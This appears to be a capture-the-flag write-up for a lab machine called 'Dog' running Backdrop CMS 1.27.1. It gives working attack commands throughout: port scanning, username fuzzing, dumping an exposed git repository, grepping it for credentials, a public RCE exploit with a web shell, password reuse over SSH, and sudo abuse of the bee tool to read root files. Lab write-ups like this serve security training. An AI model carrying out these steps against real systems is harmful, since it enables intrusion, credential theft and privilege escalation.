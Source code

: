 # 🐶 Dog

## 📝 Overview

The machine uses **Backdrop CMS 1.27.1**, vulnerable to Authenticated Remote Code Execution (RCE).  
The goal is to enumerate the web application, exploit Backdrop CMS, and escalate privileges to root.

## 🔍 Enumeration

Nmap:
```sh
nmap -p- -T4 10.10.11.58
nmap -sV -sC -p 22,80 10.10.11.58
```
Add the host to /etc/hosts:
```sh
echo "10.10.11.58 dog.htb" | sudo tee -a /etc/hosts
```
Username Enumeration (Password Reset Form):
```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-X POST -d "name=FUZZ&form_id=user_pass&op=Reset+password" \
-u http://10.10.11.58/?q=user/password -mr "Sorry, .* is not recognized as a user name"
```

## 📂 Git Repository Dump

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./doggit
```

## 🔑 Credential & Sensitive Information Search on dump git

```bash
grep -Ri 'user' .
grep -Ri 'username' .
grep -Ri 'password' .
grep -Ri 'pass' .
grep -Ri 'admin' .
grep -Ri '.htb'
grep -Eroi "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,}" .
```
Found credentials:
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
And user:
```
tiffany@dog.htb
```

## ⚡ Exploiting Backdrop CMS 1.27.1 (Authenticated RCE)

The machine is vulnerable to **Backdrop CMS 1.27.1 – Authenticated Remote Command Execution**:  
[Exploit-DB #52021](https://www.exploit-db.com/exploits/52021)

```bash
# Install new module manually
python exploit.py http://10.10.11.58

# Package and upload web shell
tar -czvf shell.tar.gz shell/
# Access web shell
http://10.10.11.58/modules/shell/shell.php?cmd=id
# Find another user:
cat /etc/passwd/
```

## 🧗Password Reuse & Privilege Escalation

Login as johncusack using reused password:
```bash
# johncusack // BackDropJ2024DS2024
ssh johncusack@10.10.11.58

# Upload linPEAS for enumeration
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
scp linpeas.sh johncusack@10.10.11.58:.

# Basic enumeration
id
groups
uname -a
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
sudo -l

# Privilege escalation via Backdrop bee command
cd /var/www/html
sudo /usr/local/bin/bee --root eval "system('cat /root/root.txt');"
```
